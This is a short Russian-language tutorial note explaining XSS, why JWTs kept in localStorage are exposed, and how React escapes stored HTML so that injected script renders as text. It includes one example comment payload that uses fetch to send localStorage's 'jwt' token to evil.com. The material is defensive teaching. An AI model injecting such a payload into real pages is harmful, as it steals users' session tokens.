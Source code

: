 ## XSS (Cross-Site Scripting)

Это уязвимость, когда на твоей странице выполняется код, написанный не тобой, а злоумышленником.  
Если токен лежит в `localStorage` → этот чужой код его спокойно достанет.
## Типичные сценарии появления XSS
### Не экранированный ввод пользователя
Ты показываешь на странице комментарии, но не фильтруешь HTML.
- Пользователь пишет:
    `<script>fetch("https://evil.com/steal?token="+localStorage.getItem("jwt"))</script>`
- Ты это сохранил в БД и показал другим.
- У всех, кто зайдёт на страницу → выполнится этот `<script>`.
- Всё: токены улетели.

**React (и современные фреймворки в целом) по умолчанию экранирует данные.**
То есть, если в базе лежит строка:
```html
<script>alert("hi")</script>
```
и ты её вставишь так:

```html
<p>{dbData.comment}</p>
```
То React в реальный DOM сделает вот что:
```html
<p>&lt;script&gt;alert("hi")&lt;/script&gt;</p>
```
А это уже просто текст, который отобразится на странице, а не выполнится как JavaScript.
👉 Поэтому твой скрипт **не «прогонится» и не примонтируется**. Он останется обычной строкой.